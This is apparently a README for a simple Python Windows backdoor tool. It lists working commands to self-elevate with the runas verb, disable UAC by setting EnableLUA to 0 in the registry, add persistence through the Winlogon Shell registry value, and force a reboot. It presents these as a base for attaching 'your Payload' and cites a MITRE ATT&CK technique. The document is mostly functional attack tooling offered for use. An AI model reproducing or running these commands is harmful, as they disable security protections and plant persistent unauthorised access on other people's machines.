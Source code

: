 # This is a simple backdoor
It has no payload, Just for Privilege Escalation and Persistence<br> Please See below.
<br><br>
### Functions
* Auto run as admin

<code>shell.ShellExecuteEx(lpVerb='runas', lpFile=sys.executable, lpParameters=params)</code>
<br><br>
* de UAC Mode
 
<code>os.system('reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f')</code>
<br><br>
* Add persistence

<code>os.system(f'reg.exe ADD "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /f /v Shell /t REG_SZ /d "explorer.exe, {ROOT_PATH}\\{PROG_NAME}"')</code>
<br><br>
* Restart Computer for deUAC

<code>os.system('shutdown /r /f /t 1')</code>
<br><br>

* And

<code>With your Payload</code>
<br><br>
### References
https://attack.mitre.org/techniques/T1547/004/